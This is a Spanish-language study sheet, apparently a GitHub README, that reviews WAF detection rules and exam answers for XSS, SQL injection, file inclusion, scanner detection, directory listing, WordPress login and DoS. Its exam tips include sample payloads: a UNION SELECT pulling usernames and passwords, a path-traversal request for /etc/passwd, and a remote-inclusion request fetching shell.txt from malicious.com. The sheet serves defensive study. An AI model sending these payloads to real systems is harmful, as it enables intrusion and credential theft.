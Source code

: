 # 🛡️ Resumen de Reglas WAF – Chuleta de Repaso

<p align="center">
  <img src="https://img.shields.io/badge/WAF-Security-blue?style=for-the-badge&logo=shield" />
  <img src="https://img.shields.io/badge/Repaso-CyberSecurity-green?style=for-the-badge&logo=linux" />
</p>

---

## 🔥 Ataques Detectados y Reglas

| 🚨 **Ataque**                  | 🧩 **Patrón Detectado**                            | 📜 **Descripción breve** | ✅ **Respuesta Correcta** |
|--------------------------------|----------------------------------------------------|--------------------------|---------------------------|
| 🕷️ **Cross-Site Scripting (XSS)** | `<script>`                                         | Inyección de JS en navegador. | **XSS** |
| 💉 **SQL Injection (SQLi)**       | `union.*select.*from`                             | Inyección SQL para extraer datos. | **SQLi** |
| 📂 **Local File Inclusion (LFI)** / Path Traversal | `../`                                           | Acceso a archivos locales. | **LFI / Path Traversal** |
| 🌐 **Remote File Inclusion (RFI)** | `file://`, `ftp://`, `http://`, `https://`        | Inclusión de archivos remotos. | **RFI** |
| 🤖 **Scanners automáticos**       | `User-Agent` → `scanners-user-agents.data`        | Detecta Nikto, Nmap, sqlmap. | **Detecta scanners** |
| 📑 **Directory Listing**          | `<TITLE>Index of...>`, `To Parent Directory`      | Exposición de listados de ficheros. | **Directory Listing** |
| 🔐 **Acceso a WordPress Login**   | `/wp-login.php`                                   | Intentos de acceso al panel WP. | **Login WP** |
| 🌪️ **Denegación de Servicio (DoS)** | `IP:DOS_BLOCK` con contadores                   | Bloquea peticiones masivas de una IP. | 
**DoS** |

---
# 🛡️ Resumen de Reglas WAF – Chuleta de Repaso

## 🔥 Ataques Detectados y Reglas

| 🚨 Ataque                   | 🧩 Patrón Detectado                                   | 📜 Descripción breve | ✅ Respuesta Correcta |
|-----------------------------|------------------------------------------------------|----------------------|-----------------------|
| 🕷️ Cross-Site Scripting (XSS) | `<script>`                                           | Inyección de JS para ejecutar código en el navegador. | **XSS** |
| 💉 SQL Injection (SQLi)       | `union.*select.*from`                               | Inyección SQL para extraer datos de la base de datos. | **SQLi** |
| 📂 Local File Inclusion (LFI) / Path Traversal | `../`                                                 | Acceso a archivos locales usando rutas relativas. | **LFI / Path Traversal** |
| 🌐 Remote File Inclusion (RFI) | `file://`, `ftp://`, `http://`, `https://`          | Inclusión de archivos remotos para ejecutar código. | **RFI** |
| 🤖 Scanners automáticos       | `User-Agent` contra `scanners-user-agents.data`      | Detecta herramientas como Nikto, Nmap, sqlmap. | **Detecta scanners** |
| 📑 Directory Listing / Info Leak | `<TITLE>Index of...>`, `To Parent Directory`       | Listado de directorios expone ficheros sensibles. | **Directory Listing** |
| 🔐 Acceso a WordPress Login   | `/wp-login.php`                                     | Identifica intentos de acceso al panel de WordPress. | **Login WP** |
| 🌪️ Denegación de Servicio (DoS) | `IP:DOS_BLOCK` con contadores                     | Bloquea tráfico masivo desde la misma IP. | **DoS** |

---

## 📌 Conceptos Clave

- 🔧 **WAF ≠ Política de desarrollo seguro**  
  El WAF **mitiga** ataques en tiempo real, pero el desarrollo seguro **previene** vulnerabilidades desde el origen.  
  **➡️ Son complementarios, no intercambiables.**
   
  **➡️ Se complementan, nunca se sustituyen.**

- 🛡️ **Ubicación recomendada del WAF**  
  En la **DMZ, delante del servidor web**, justo después del firewall:  
  ```ascii
Internet --> Firewall --> WAF --> myWebServer (DMZ)





- 🏠 **Diferencia entre Servidor Web y DMZ**  
- **Servidor web**: recurso específico (ej. `myWebServer`).  
- **DMZ**: zona de red donde se colocan servicios expuestos para proteger la LAN interna (Green).  

---

## 🎯 Tips de Examen

- **XSS** → `<script>alert(1)</script>`  
- **SQLi** → `' OR '1'='1' UNION SELECT user,password FROM users --`  
- **LFI** → `GET /index.php?page=../../etc/passwd`  
- **RFI** → `GET /index.php?page=http://malicious.com/shell.txt`  
- **Scanners** → Detecta cabeceras típicas de Nikto, sqlmap, etc.  
- **Directory Listing** → Muestra `Index of /` con archivos listados.  
- **WP Login** → `/wp-login.php` = posible fuerza bruta.  
- **DoS** → Muchas peticiones en poco tiempo desde la misma IP.  

---

✨ **Recuerda:** El WAF es tu **escudo en tiempo real**, pero la **espada es el desarrollo seguro**.  




---------------------------------------------------------------------------------------------
📘 Resumen de Reglas WAF – Repaso
🔹 1. Cross-Site Scripting (XSS)
•	Regla detectada:
        < script>
•	Claves: Busca etiquetas < script> o inyecciones de JavaScript.
•	Ataque: Inyección de código para ejecutar scripts en el navegador de la víctima.
•	Respuesta correcta: Cross-Site Scripting (XSS)
________________________________________
🔹 2. SQL Injection (SQLi)
•	Regla detectada:
union.*select.*from
•	Claves: Uso de UNION SELECT para extraer datos de la base de datos.
•	Ataque: Inyección SQL para obtener, modificar o borrar datos.
•	Respuesta correcta: SQL Injection (SQLi)
________________________________________
🔹 3. Local File Inclusion (LFI) / Path Traversal
•	Regla detectada:
\.\./
•	Claves: Secuencias ../ para acceder a directorios superiores.
•	Ataque: Lectura de archivos locales no autorizados.
•	Respuesta correcta: Local File Inclusion (LFI) / Path Traversal
________________________________________
🔹 4. Remote File Inclusion (RFI)
•	Regla detectada:
^(?i:file|ftps?|https?):\/\/
•	Claves: Carga de archivos desde http://, https://, ftp://, file://.
•	Ataque: Inyección de archivos remotos para ejecutar código malicioso.
•	Respuesta correcta: Remote File Inclusion (RFI)
________________________________________
🔹 5. Scanners automáticos
•	Regla detectada:
REQUEST_HEADERS:User-Agent @pmFromFile scanners-user-agents.data
•	Claves: Identifica User-Agent de herramientas como Nmap, Nikto, sqlmap.
•	Ataque: Reconocimiento automático para detectar vulnerabilidades.
•	Respuesta correcta:
Ninguna de las anteriores. Detecta ataques automáticos con scanners conocidos
________________________________________
🔹 6. Directory Listing / Fugas de información
•	Regla detectada:
< TITLE>Index of.*< /TITLE> | To Parent Directory
•	Claves: Detecta páginas que muestran listados de directorios.
•	Ataque: Fuga de información sensible por Directory Listing.
•	Respuesta correcta:
Detecta fugas de información (Directory Listing)
________________________________________
🔹 7. Acceso a WordPress Login
•	Regla detectada:
REQUEST_FILENAME "@endsWith /wp-login.php"
•	Claves: Identifica accesos a la página de login de WordPress.
•	Uso: Monitorizar intentos de login, posible fuerza bruta.
•	Respuesta correcta:
Detecta un acceso al panel de administración de un WordPress
________________________________________
🔹 8. Denegación de Servicio (DoS)
•	Regla detectada:
IP:DOS_BLOCK "@eq 1"
•	Claves: Contadores para bloquear peticiones masivas de una IP.
•	Ataque: Saturación del servicio (DoS).
•	Respuesta correcta:
Detecta un ataque de denegación de servicio (DoS)
________________________________________
📌 Conclusiones del Test
•	WAF ≠ desarrollo seguro → Se complementan, no se sustituyen.
•	Ubicación recomendada del WAF:
En la DMZ, delante del servidor web, después del firewall.
•	Diferencia clave:
o	Servidor web: recurso específico (ej. myWebServer).
o	DMZ: red intermedia donde se colocan servidores expuestos.



![WAF Badge](https://img.shields.io/badge/WAF-Security-blue?style=for-the-badge&logo=shield)
